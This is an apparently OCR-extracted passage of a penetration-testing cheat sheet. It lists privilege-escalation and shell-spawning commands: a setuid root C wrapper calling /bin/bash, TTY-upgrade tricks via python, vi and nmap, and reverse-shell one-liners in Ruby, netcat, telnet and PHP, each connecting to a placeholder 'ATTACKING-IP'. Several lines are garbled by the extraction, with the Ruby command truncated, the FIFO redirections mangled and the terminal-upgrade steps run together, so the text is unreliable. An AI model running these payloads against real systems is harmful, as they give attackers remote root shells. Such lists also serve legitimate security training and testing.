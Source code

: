 setresuid(0, 0, 0);

system("/bin/bash");

}

- bin/sh:

int main(void){

setresuid(0, 0, 0);

system("/bin/sh");

}

### **TTY Shell:**

-       python -c 'import pty;pty.spawn("/bin/bash")'
-       echo os.system('/bin/bash')
-       /bin/sh –i
-       execute('/bin/sh')
  - LUA
-       !sh
  - Privilege Escalation via nmap
-       :!bash
  - Privilege escalation via vi

### Fully Interactive TTY

                                    In reverse shell python -c 'import pty; pty.spawn("/bin/bash")'Ctrl-Z                                In Attacker consolestty -astty raw -echofg                                In reverse shellresetexport SHELL=bashexport TERM=xterm-256colorstty rows <num> columns <cols>

### **Spawn Ruby Shell**

-       exec "/bin/sh"
-       ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d

### **Netcat**

-       nc -e /bin/sh ATTACKING-IP 80
-       /bin/sh | nc ATTACKING-IP 80
-       rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p

### **Telnet Reverse Shell**

-       rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
-       telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443

### **PHP**

-       php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
  - (Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)
